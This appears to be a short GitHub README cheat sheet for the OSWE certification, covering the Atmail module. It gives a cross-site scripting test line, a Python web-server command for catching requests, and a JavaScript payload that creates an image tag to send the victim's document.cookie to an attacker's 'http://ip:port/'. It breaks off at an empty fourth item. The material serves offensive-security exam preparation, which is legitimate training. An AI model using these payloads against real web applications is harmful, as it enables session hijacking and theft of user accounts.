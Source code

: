 # OSWE-cheat-sheet
OSWE-cheat sheet module by module with updated syllabus:

Module Atmail :

1. Steal cookie payload (Httponly flag should be disable in set-Cookie headers)<br>
    #<script>alert(document.cookie);</script>
    
2. Run Python Server in python3<br>
    #python3 -m http.server
    
3. Embeded Javascript file in image tag<br>
    #function addImage() {<br>
    #var img = document.createElement('img');<br>
    #img.src = 'http://ip:port/' + document.cookie;<br>
    #document.body.appendChild(img);<br>
    #}<br>
    #addImage();<br>
    
4. 
    
    
    
